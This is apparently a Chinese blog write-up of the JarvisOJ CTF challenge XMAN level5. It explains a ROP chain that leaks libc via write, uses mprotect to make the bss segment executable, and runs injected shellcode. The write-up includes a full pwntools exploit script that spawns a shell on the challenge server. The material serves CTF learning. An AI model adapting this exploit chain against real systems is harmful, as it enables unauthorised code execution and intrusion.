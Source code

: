 ```yaml
---
title: XMAN level5 の Write-Up
date: 2020-06-23 17:11:53
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;这是JarvisOJ的PWN题部分[XMAN]level5的Write-Up。题目和level3_x64一样，只是禁用system和execve函数，让我们尝试使用mmap和mprotect函数。关于这两个函数背景知识可以参考[Linux内存映射机制](https://coldwave96.github.io/2020/06/22/mmap/)。

<!-- more -->

## Analysis

&emsp;&emsp;总体思路很简单：

* 分配一块内存buf并设置(mmap)/修改(mprotect)这块内存属性为rwx

* 通过read函数将shellcode写到分配的buf中去

* 控制程序跳转到分配的buf中执行shellcode

&emsp;&emsp;如果通过mmap函数实现：

* 通过内存地址泄露获取libc加载基址

* 加上offset获得mmap函数在内存中真实地址

* 调用mmap函数设定buf长度和属性

* 将shellcode写入mmap函数返回的buf首地址

* 控制程序跳转到buf执行shellcode

&emsp;&emsp;如果通过mprotect函数实现：

* 通过内存地址泄露获取libc加载基址

* 加上offset获得mprotect函数在内存中真实地址

* 调用mprotect函数修改bss段的权限为rwx即7

* 将shellcode写入bss段

* 控制程序跳转到bss段执行shellcode

## PWN

&emsp;&emsp;这里简单点选择mprotect函数实现，因为mmap函数需要设置6个参数，而mprotect函数以及过程中会用到的read/write函数都只需要设置3个参数。

&emsp;&emsp;由于是64位程序，所以需要通过寄存器传参。在程序中找了一下，发现只有万能Gadgets可以用。关于万能Gadgets，可以看一下我之前的[ret2csu - 万能Gadgets](https://coldwave96.github.io/2020/06/15/Useful-Gadgets/)。

&emsp;&emsp;下面直接给出EXP脚本：

```Python
* # coding:utf-8
* from pwn import *
* context(arch='amd64',os='linux')
* 
* sh = remote('pwn2.jarvisoj.com', 9884)
* 
* elf = ELF('./level5')
* libc = ELF('./libc-2.19.so')
* 
* write_plt = elf.plt['write']
* write_got = elf.got['write']
* vuln_addr = elf.symbols['vulnerable_function']
* 
* gadget1 = 0x4006aa
* gadget2 = 0x400690
* 
* # 泄露write函数地址
* payload1 = 'a' * (0x80 + 0x8) + p64(gadget1)
* payload1 += p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) # 依次给rbx、rbp、r12、rdx、rsi、rdi赋值
* payload1 += p64(gadget2)
* payload1 += 'a' * 56 # padding
* payload1 += p64(vuln_addr)
* 
* sh.recvuntil('Input:\n')
* sh.sendline(payload1)
* write_addr = u64(sh.recv(8))
* 
* write_libc = libc.symbols['write']
* mprotect_libc = libc.symbols['mprotect']
* 
* bss_addr = 0x600a88
* read_plt = elf.plt['read']
* read_got = elf.got['read']
* 
* # mprotect函数在内存中的真实地址
* mprotect_addr = write_addr - write_libc + mprotect_libc
* 
* # 创建shellcode
* shellcode = p64(mprotect_addr) + asm(shellcraft.amd64.sh())
* 
* # 调用read函数将shellcode写入bss段
* payload2 = 'a' * (0x80 + 0x8) + p64(gadget1)
* payload2 += p64(0) + p64(1) + p64(read_got) + p64(len(shellcode)) + p64(bss_addr) + p64(0)
* payload2 += p64(gadget2)
* payload2 += 'a' * 56
* payload2 += p64(vuln_addr)
* 
* sh.recvuntil('Input:\n')
* sh.sendline(payload2)
* sh.send(shellcode)
* 
* # 调用mprotect函数修改bss段权限，并控制程序跳转到bss段执行shellcode
* payload3 = 'a' * (0x80 + 0x8) + p64(gadget1)
* payload3 += p64(0) + p64(1) + p64(bss_addr) # 跳转到bss端开始去执行mprotect函数
* payload3 += p64(7) + p64(0x1000) + p64(0x600000) # mprotect函数的3个参数
* payload3 += p64(gadget2)
* payload3 += 'a' * 56
* payload3 += p64(bss_addr + 8)
* 
* sh.recvuntil('Input:\n')
* sh.sendline(payload3)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;EXP运行结果：

![](/img/XMAN-level5/XMAN1.png)

## PS

&emsp;&emsp;关于mprotect函数的参数，第一个参数addr是内存页的首地址，内存是要求是以页为单位访问。一页是４kb也就是0x1000字节所以mprotect的第一个参数必须是0x1000的倍数，并且又要包含bss段，所以设置为0x600000。第二个参数是要设置的权限的地址的范围，也是页大小为单位，又需要能包含bss段，故而设置为最小单位0x1000。第三个参数就是具体属性，这里设置成RWX即7。